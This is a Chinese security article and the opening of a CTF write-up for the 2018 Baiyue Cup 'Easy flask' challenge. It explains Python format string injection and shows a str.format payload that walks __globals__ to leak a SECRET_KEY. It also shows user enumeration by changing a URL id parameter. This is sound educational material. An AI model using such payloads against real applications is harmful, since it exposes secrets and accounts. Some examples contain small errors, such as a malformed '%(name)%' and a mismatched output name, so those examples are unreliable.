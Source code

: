 在C语言里有一类特别有趣的漏洞，叫做格式化字符串漏洞，其危害性不仅可以破坏内存，还可以读写任意地址内容。而在Python中也有格式化字符串的方法，然而当我们使用的方式不正确的时候，即格式化的字符串能够被我们控制时，就会导致一些严重的问题，比如获取敏感信息等。主要有以下几种：
- **百分号形式进行格式化字符串**
```
&gt;&gt;&gt; "My name is %s" % ('whoami', )
"My name is whoami"

&gt;&gt;&gt; "My name is %(name)%" % `{`'name':'whoami'`}`
"My name is whoami"
```
- **使用format进行格式化字符串**
```
&gt;&gt;&gt; "My name is `{``}`".format('whoami')
"My name is whoami"

&gt;&gt;&gt; "My name is `{`name`}`".format(name='whoami')
"My name is whoami"
```
- **使用标准库中的模板字符串**
string.Template()：在python中Template可以将字符串的格式固定下来，重复利用。

```
&gt;&gt;&gt; from string import Template
&gt;&gt;&gt; username = 'whoami'
&gt;&gt;&gt; s = Template('My name is $name')
&gt;&gt;&gt; s.substitute(name=username)
'My name is Hu3sky'
```

但因为我们控制了格式化字符串的一部分，将会导致一些意料之外的问题，导致一些敏感信息被泄露，如下实例：

```
&gt;&gt;&gt; 'Hello `{`name`}`'.format(name=user.__class__.__init__.__globals__)
"Hello `{`'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': &lt;class '_frozen_importlib.BuiltinImporter'&gt;, '__spec__': None, '__annotations__': `{``}`, '__builtins__': &lt;module 'builtins' (built-in)&gt;, 'config': `{`'SECRET_KEY': 'f0ma7_t3st'`}`, 'User': &lt;class '__main__.User'&gt;, 'user': &lt;__main__.User object at 0x03242EF0&gt;`}`"
```

可以看到，当我们的 `name=user.__class__.__init__.__globals__` 时，就可以将很多敏感的东西给打印出来。可以看到 Python 格式化字符串漏洞与 SSTI 有类似之处。

### <a class="reference-link" name="2018%E7%99%BE%E8%B6%8A%E6%9D%AFEasy%20flask"></a>2018百越杯Easy flask

打开题目，有注册和登陆接口，先随便注册一个账号并登录：

[![](https://p2.ssl.qhimg.com/t01de7f18f6b9e1de9e.png)](https://p2.ssl.qhimg.com/t01de7f18f6b9e1de9e.png)

提示我们应该用admin用户登录，我们观察 url 处的 views?id=6，于是我们修改id，发现可以遍历用户，在id=5时是admin的信息：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0125e115a8f2039ae5.png)
